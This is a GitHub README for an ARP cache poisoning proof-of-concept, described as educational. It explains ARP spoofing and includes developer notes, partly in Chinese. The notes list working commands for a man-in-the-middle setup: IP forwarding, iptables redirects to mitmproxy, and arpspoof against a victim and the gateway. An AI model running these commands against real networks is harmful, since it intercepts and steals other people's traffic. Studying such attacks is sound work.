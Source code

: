 # ARPCachePoisoningPOC

## Content
- Before start
- How to use

### Before start
- This project is just a POC for ARP Cache Poisoning attack and man-in-the-middle attack. For educational purposes only.
- It might not work correctly if your network envirement has any defense mechanical.
- Thanks for Gemini and Cursor. They have created such a wonderful web page.

### How to use
- 

## Aggressive behavior and knowledge description

- What is ARP Cache Poisoning
ARP Cache Poisoning aka ARP Spoofing. This tnechnical is that an adversary is trying to replace the router's mac address in victim's routing table.
If the adversary did it, the traffic which sent by victim will throught into  adversary's machine, then adversary can look all traffic from victim if there wasn't encrypted.

  - ARP(Address Resolution Protocol) in shortly:
    When a new computer join a LAN it want to send a message to other device, In addition to the IP address, the physical address, also known as the MAC Address, is also required.
    ARP handles this requirement. If there a computer(192.168.5.22) want to send a request to other computer(192.168.5.24). .22 device will make a broadcast request to all computer "What's the mac address of 192.168.5.24."
    When .24 receive this request will send its mac address for response.

    Howerver ARP is stateless protocol, so it is impossible to distinguish the response is correct or not. It cause the adversary has a chance to attack.
    The adversary can broadcast its personal mac address as the gateway, since all requests need to pass the gateway to WAN. Therefore if your router mac address be replaced to .24,
    all your requests will pass through .24 -> gateway -> WAN. If these requests are not encrypted, it gives adversary a opportunity to steal the data from your traffic.
    
     

- Against ARP Cache Poisoning

## Reference
1. https://www.fortinet.com/tw/resources/cyberglossary/what-is-arp
2. https://datatracker.ietf.org/doc/html/rfc826
3. 

## Install requirements
`pip install -r requirements.txt`

### Venv(Options)
If your want to protect your computer envirement, using venv.
`python -m venv venv`
`./venv/Scripts/activate`
or
`source ./venv/Scripts/activate`
then
`pip install -r requirements.txt`

## Put mitm cert into your system
`mitmdump -s ./proxy/proxy.py`
After allowing traffic to pass through the proxy, connect to http://mitm.it. You can download a cert for your system.

## Run Web app

`python ./app/app.py`

## 0829

- Kali
  - sudo sysctl -w net.ipv4.ip_forward=1
  - sudo iptables -t nat -A PREROUTING -p tcp --dport 80 -j REDIRECT --to-port 8080
  - sudo iptables -t nat -A PREROUTING -p tcp --dport 443 -j REDIRECT --to-port 8080
  - mitmproxy -s ./proxy/proxy.py
  - python3 ./app/app.py
host: .60
iphone: .101
mitmproxy: .62
: 因為是透過 websocket 拿 mitmproxy 的東西然後放到前端，如果在 .62 以外的地方打開網頁會看不到 proxy 的流量，所以這邊可能要修改。
: 因為 https 沒有憑證不能解密，所以 mitmproxy 收到 https 時不能用，但是現在 proxy 因為通通攔截下來，所以受害者流量通過 https 時會直接攔截不到，導致網頁直接連不上，看看能不能改成只攔截 http。

## 0830
- sudo iptables -t nat -F
- sudo iptables -t nat -L -v -n
- sudo sysctl -w net.ipv4.ip_forward=1
- sudo iptables -t nat -A PREROUTING -p tcp --dport 80 -j REDIRECT --to-port 8080
- sudo iptables -t nat -A PREROUTING -p tcp --dport 443 -j REDIRECT --to-port 8080
- sudo arpspoof -i eth0 -t 192.168.1.60 192.168.1.1
- sudo arpspoof -i eth0 -t 192.168.1.1 192.168.1.60
- ./venv/bin/mitmdump -v -s ./proxy/proxy.py
- python ./app/app.py

- HTTPS 實際環境上應該抓不到，看看 Web 那端要不要改掉，然後可以用 Bettercap 對多個設備進行 arp spoofing

## 0902
- 已經大致把想做的功能做完，

## TODO
- Project 還需要把 README 調整好，然後嘗試使用 Bettercap 對網內的 IP 進行攻擊
- 可以嘗試看看有沒有機會做"防禦"相關內容 ?
- 弄成 Docker ?
- 攔截除了 HTTP 以外的流量

## MITMPROXY
- HTTPS 那邊

